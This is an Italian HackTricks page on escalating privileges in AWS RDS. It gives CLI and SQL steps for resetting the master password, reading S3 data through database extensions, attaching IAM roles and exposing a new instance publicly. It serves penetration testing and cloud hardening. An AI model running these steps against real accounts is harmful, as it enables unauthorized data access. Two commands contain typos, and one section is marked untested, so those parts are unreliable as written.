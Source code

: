 # AWS - Escalazione dei privilegi su RDS

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks su AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione esclusiva di [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## RDS - Servizio di Database Relazionale

Per ulteriori informazioni su RDS, controlla:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con tale autorizzazione, un attaccante può **modificare la password dell'utente principale** e il login all'interno del database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Dovrai essere in grado di **contattare il database** (di solito sono accessibili solo dall'interno delle reti).
{% endhint %}

**Impatto potenziale:** Trovare informazioni sensibili all'interno dei database.

### rds-db:connect

Secondo la [**documentazione**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) un utente con questa autorizzazione potrebbe connettersi all'istanza del database.

### Abuso delle autorizzazioni IAM del ruolo RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se esegui **`SELECT datname FROM pg_database;`** e trovi un database chiamato **`rdsadmin`** sai di essere all'interno di un **database postgresql AWS**.
{% endhint %}

Prima di tutto puoi verificare se questo database è stato utilizzato per accedere a qualsiasi altro servizio AWS. Potresti controllare questo guardando le estensioni installate:
```sql
SELECT * FROM pg_extension;
```
Se trovi qualcosa come **`aws_s3`** puoi assumere che questo database abbia **un certo tipo di accesso su S3** (ci sono altre estensioni come **`aws_ml`** e **`aws_lambda`**).

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi vedere se il **cluster ha un ruolo IAM allegato** nel campo **`AssociatedRoles`**. Se ce n'è uno, puoi assumere che il database sia stato **preparato per accedere ad altri servizi AWS**. In base al **nome del ruolo** (o se puoi ottenere i **permessi** del ruolo) potresti **indovinare** a quali accessi extra il database ha.

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se avessi **credenziali AWS** grezze, potresti usarle anche per accedere ai dati di S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **non ha bisogno di cambiare alcuna variabile del gruppo di parametri** per poter accedere a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
All'interno di un mysql, se esegui la query **`SELECT User, Host FROM mysql.user;`** e c'è un utente chiamato **`rdsadmin`**, puoi assumere di essere all'interno di un **database AWS RDS mysql**.
{% endhint %}

All'interno del mysql esegui **`show variables;`** e se le variabili come **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** hanno valori, puoi assumere che il database sia pronto per accedere ai dati di S3.

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi verificare se il cluster ha un **ruolo associato**, il che di solito significa accesso ai servizi AWS).

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBCluster` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.\
Si noti che alcuni DB richiedono configurazioni aggiuntive come Mysql, che necessita di specificare il ruolo ARN nei gruppi di parametri anche.

### `rds:CreateDBInstance`

Solo con questa autorizzazione un attaccante potrebbe creare una **nuova istanza all'interno di un cluster** che esiste già e ha un **ruolo IAM** allegato. Non sarà in grado di cambiare la password dell'utente principale, ma potrebbe essere in grado di esporre la nuova istanza del database su Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
DA FARE: Test
{% endhint %}

Un attaccante con i permessi `rds:CreateDBInstance` e `iam:PassRole` può **creare una nuova istanza RDS con un ruolo specificato allegato**. L'attaccante potrebbe quindi **accedere potenzialmente a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
Alcuni requisiti del ruolo/profilo istanza da allegare (da [**qui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Il profilo deve esistere nel tuo account.
* Il profilo deve avere un ruolo IAM che Amazon EC2 ha il permesso di assumere.
* Il nome del profilo istanza e il nome del ruolo IAM associato devono iniziare con il prefisso `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBInstance` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
L'istanza del database deve essere al di fuori di un cluster per questo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impatto potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks su AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
